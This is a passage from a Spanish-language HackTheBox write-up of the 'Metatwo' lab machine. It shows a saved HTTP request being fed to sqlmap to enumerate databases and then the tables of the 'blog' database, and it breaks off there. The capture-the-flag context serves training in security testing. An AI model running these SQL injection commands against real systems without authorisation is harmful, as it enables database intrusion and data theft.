 ![](/assets/images/HTB/Metatwo-HackTheBox/burp.webp)

Al guardarlo en el archivo queda de la siguiente forma.

![](/assets/images/HTB/Metatwo-HackTheBox/request2.webp)

* Y ahora con la ayuda de sqlmap comienzo lanzando el siguiente comando.

```bash
# Comando para descubrir el nombre de la base de datos
sqlmap -r archivo.txt --batch --threads 5 --dbs
```
![](/assets/images/HTB/Metatwo-HackTheBox/bdd.webp)

* Ya tengo el nombre de la base de datos (blog), ahora toca descubrir las tablas que hay dentro de la misma.

```bash
# Comando para descubrir las de la base de datos blog
sqlmap -r archivo.txt --batch --threads 5 -D blog --tables
```

